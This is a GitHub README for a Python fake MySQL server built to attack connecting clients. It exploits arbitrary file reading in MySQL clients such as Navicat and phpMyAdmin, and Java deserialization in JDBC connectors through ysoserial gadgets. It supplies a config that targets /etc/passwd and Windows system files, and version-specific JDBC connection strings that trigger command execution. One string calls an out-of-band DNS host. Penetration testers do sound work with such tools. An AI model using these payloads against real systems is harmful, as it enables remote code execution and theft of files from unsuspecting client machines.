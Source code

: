 # MySQL Fake Server
A fake MySQL Server used for penetration,which is implemented by  native python3 with out any other dependency package.

Modified from Poject:https://github.com/waldiTM/python-mysqlproto

## Use

1. MySQL Client Arbitrary File Reading Exploit
2. MySQL JDBC Client's Java Deserialization Vulnerable Exploit

## Description
1. Python3 Environment ，no need to install other package.
2. Run Command：`python server.py`
3. [Ysoserial](https://github.com/frohoff/ysoserial) is required to use the deserialization Exploit，Support Attributes`ServerStatusDiffInterceptor` and `detectCustomCollations`.
4. MySQL user name supports special symbols such as colons and slashes, but whether it can be used depends on the specific client environment.
5. **Recommended usage:**config.json contains some preset information, you can modify and add the File Reading and yso parameters corresponding to the specified user name by yourself. See the following instructions for details
6. According to the **login user name** to return the File Reading Exploit packet or deserialize Exploit packet.

## Test Environment：
1. jdk1.8.20+mysql-connector-java 8.0.14/5.1.22(Deserialization on Windows（JRE8u20）、File Reading)
2. PHPMyAdmin(File Reading on Windows  an Linux，can use relative path to read php file)
3. Navicat 12(File Reading on Windows，nead switch to mysql_clear_password Authentication plugin)

## Instructions
Default config.json:

```json
{
//File Reading Params
    "fileread":{
        "win_ini":"c:\\windows\\win.ini",//key is username,value is the path for file reading
        "win_hosts":"c:\\windows\\system32\\drivers\\etc\\hosts",
        "win":"c:\\windows\\",
        "linux_passwd":"/etc/passwd",
        "linux_hosts":"/etc/hosts",
        "index_php":"index.php"
    },
//ysoserial Params
    "yso":{
        "Jdk7u21":["Jdk7u21","calc"]//key is username,value is ysoserial's run params.
    }
}
```

1. File Reading Exploit：

    - The filepath to be read can be predefined in the fileread section of config.json(e.g.:  use username `win_ini`to read `win.ini`)
    - Can use the username starting with fileread_(e.g.:use username `fileread\_/etc/passwd` to read `/etc/passwd`)

2. Deserialize Exploit:
    - The yso payload generation parameters can be predefined in the yso section in config.json(e.g. username `Jdk7u21` return Jdk7u21 gadget with open calculator)

    - Can use the username starting with `yso_`.The format is `yso\_payload type\_command`（e.g:yso\_Jdk7u21\_calc）

      JDBC connection string examples：

      - `jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_Jdk7u21_calc`
      - `jdbc:mysql://127.0.0.1:3306/test?detectCustomCollations=true&autoDeserialize=true&user=yso_URLDNS_http://yourdns.log.addr/`

3. About authentication：The default authentication plugin is **mysql_native_password**,But due to the bugs of protocol implementation，it will  connect failed with Navicat client.

    At this time, append **_clear** to the username for switch the  authentication plugin to **mysql_clear_password**, and the Navicat client will connect to fake server successfull and get the file content.

    - **e.g.：** fileread\_/etc/passwd_clear

## JDBC Connection Strings

I sorted JDBC Connection Strings out  while writing the analysis：https://www.anquanke.com/post/id/203086
Please refer to the above description to modify the username.

### ServerStatusDiffInterceptor Attribute Exploit:

- **8.x:** `jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_JRE8u20_calc`

- **6.x(Attribute name is different):** `jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_JRE8u20_calc`

- **5.1.11 and above 5.x version（package name with out "cj"）:**` jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_JRE8u20_calc`

- **5.1.10 and below 5.1.X version：** Same as above， But you need to execute arbitrary query after connecting。

- **5.0.x:** No`ServerStatusDiffInterceptor`Attribute yet.┓( ´∀` )┏

### detectCustomCollations Attribute Exploit：

- **5.1.41 and above:** unavailable

- **5.1.29-5.1.40:** `jdbc:mysql://127.0.0.1:3306/test?detectCustomCollations=true&autoDeserialize=true&user=yso_JRE8u20_calc`

- **5.1.28-5.1.19：** `jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&user=yso_JRE8u20_calc`

- **5.1.x versions below 5.1.18：** unavailable

- **Version 5.0.x is not available** 

## Some Examples

Navicat File Reading Exploit（username is win_ini_clear）

![image-20200414150112426](README.assets/image-20200414150112426.png)

JDK 1.8.20+mysql-connector-java 8.0.14 Deserialization Exploit，(username is yso_JRE8u20_calc)

![image-20200414150417471](README.assets/image-20200414150417471.png)

## Some pits in coding

1. About `SHOW VARIABLES `
   - Two columns are required, otherwise an exception will be throwed.
   - When JDBC is connected, the server variables are obtained by calling `SHOW VARIABLES`, the most important variables  are two time zone variables `system_time_zone` and `time_zone`. In the getObject function, the time zone related information is needed, without these two will throw an exception.
2. Jdbc's Blob judgment condition is that the field type is blob, the org_table field declared by the field is not empty, and flags is greater than 128, otherwise it will be parsed as text（Function`findMysqlType` in Class `com.mysql.cj.protocol.a.NativeProtocol`）
3. Sequence order detection in Orignal `python-mysqlproto` Project need to be removed，otherwise an exception will be throwed.（There should be a unfound problem that caused the serial number to be reset）。
4. `SHOW SESSION STATUS`and`SHOW COLLATION`'s share column is the second column.
5. In the environment of mysql java connector 5.x, the server version returned by server need to be greater than or equal to 5.0.0 ,and execution flow will enter into `Util.resultSetToMap` and then into `getObject`

## About Recruitment

360云安全团队目前大量招聘中，欢迎各位大佬投递简历，大家一起来愉快地玩耍~^_^

https://www.anquanke.com/post/id/200462

## Reference

**Project basis：**

https://github.com/waldiTM/python-mysqlproto

**Vulnerability related:**

https://i.blackhat.com/eu-19/Thursday/eu-19-Zhang-New-Exploit-Technique-In-Java-Deserialization-Attack.pdf

https://paper.seebug.org/1112/

https://github.com/codeplutos/MySQL-JDBC-Deserialization-Payload

**Agreement related：**

https://dev.mysql.com/doc/internals/en/protocoltext-resultset.html

https://dev.mysql.com/doc/internals/en/character-set.html

https://dev.mysql.com/doc/internals/en/com-query-response.html#packet-Protocol::LOCAL_INFILE_Data

